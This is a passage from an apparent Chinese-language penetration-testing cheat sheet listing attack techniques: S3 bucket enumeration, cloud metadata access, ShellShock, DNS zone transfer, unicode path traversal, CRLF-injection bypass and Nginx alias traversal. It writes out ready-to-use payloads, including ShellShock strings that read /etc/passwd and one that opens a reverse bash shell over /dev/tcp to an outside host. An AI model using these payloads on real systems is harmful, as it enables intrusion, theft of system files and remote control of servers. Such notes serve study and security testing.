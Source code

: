 - AWS常见漏洞
    - S3 bucket权限配置错误
        - nslookup判断
            - `nslookup 87.87.87.87`
            - `s3-website-us-west-2.amazonaws.com.`
        - 确认bucket
            - 访问`bucketname.s3.amazonaws.com`
            - 成功会返回bucket XML信息
        - awscli工具
            - 列目录 `aws s3 ls s3://bucketname/ --region regionname`
            - 下载 `aws sync s3://bucketname/ localdir --region regionname`
    - metadata
        - http://169.254.169.254/latest/meta-data/
        - Tool 
            - https://andresriancho.github.io/nimbostratus/

- 常见Port服务
    - http://packetlife.net/media/library/23/common_ports.pdf
- `php -i | grep "Loaded Configuration File"`
    
    - 列出php.ini路径

- `curl -i -X OPTIONS 'http://evil.com/'`

- ShellShock
    
    - `() { :; }; echo vulnerable`
    - `() { :a; }; /bin/cat /etc/passwd`
    - `() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

- X-forwarded-for伪造来源IP

- DNS Zone Transfer
    - `dig @1.2.3.4 abc.com axfr`
        - DNS Server: `1.2.3.4`
        - Test Domain: `abc.com`

- NodeJS unicode failure
    - 内部使用UCS-2编码
    - `ＮＮ` => `..`
        - `Ｎ` 即 `\xff\x2e`
        - 转型时舍弃第一个Byte

- 特殊的CRLF Injection绕过
    - `%E5%98%8A`
    - 原始的Unicode码为`U+560A`
    - raw bytes: `0x56`, `0x0A`

- MySQL utf8 v.s. utf8mb4
    - MySQL utf8编码只支持3 bytes
    - 若将4 bytes的utf8mb4插入utf8中，在non strict模式下会被截断
    - CVE-2015-3438 WordPress Cross-Site Scripting Vulnerability

- Nginx目录穿越漏洞
    - 常见于Nginx做Reverse Proxy的状况
    ```
    location /files {
        alias /home/
    }
    ```
    - 因为`/files`没有加上结尾`/`，而`/home/`有
    - 所以`/files../`可以访问上层目录
